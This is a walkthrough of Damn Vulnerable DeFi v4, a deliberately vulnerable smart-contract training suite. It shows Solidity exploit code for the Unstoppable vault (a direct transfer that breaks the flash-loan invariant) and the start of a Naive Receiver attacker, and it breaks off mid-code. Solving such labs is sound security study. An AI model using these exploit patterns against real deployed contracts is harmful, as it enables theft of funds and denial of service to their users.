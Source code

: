 # Damn Vulnerable DeFi v4 - Complete Challenge Walkthrough

## Overview
Damn Vulnerable DeFi v4 is a comprehensive set of smart contract security challenges built with Foundry and Solidity 0.8.25. The challenges cover flashloans, price oracles, governance, NFTs, DEXs, lending pools, smart contract wallets, timelocks, and more.

## Challenge 1: Unstoppable

### Vulnerability
The `UnstoppableVault` contract has a logic flaw in the `flashLoan` function where it checks `totalAssets() != totalSupply + amount` which can be broken by directly transferring tokens to the vault.

### Exploit Code
```solidity
// In Unstoppable.t.sol - test_unstoppable() function
function test_unstoppable() public checkSolvedByPlayer {
    // Transfer tokens directly to vault to break the totalAssets calculation
    token.transfer(address(vault), 1);
}
```

### Why it works
- The vault checks if `totalAssets() == totalSupply + amount`
- `totalAssets()` returns `token.balanceOf(address(this))`
- Direct token transfer increases balance but doesn't mint shares
- This breaks the invariant and prevents future flash loans

### Fix
```solidity
// Remove the faulty check or use proper accounting
// Instead of: if (totalAssets() != totalSupply + amount) revert InvalidBalance();
// Use internal accounting that tracks actual deposited amounts
```

---

## Challenge 2: Naive Receiver

### Vulnerability
The `NaiveReceiverPool` allows anyone to request flash loans on behalf of any receiver, and the receiver pays fees without validation.

### Exploit Code
```solidity
// In NaiveReceiver.t.sol - test_naiveReceiver() function
function test_naiveReceiver() public checkSolvedByPlayer {
    // Deploy attack contract
    NaiveReceiverAttacker attacker = new NaiveReceiverAttacker(
        pool, 
        address(receiver), 
        recovery
    );
    
    // Execute attack in 2 transactions max
    attacker.attack();
}

// Attack contract
contract NaiveReceiverAttacker {
```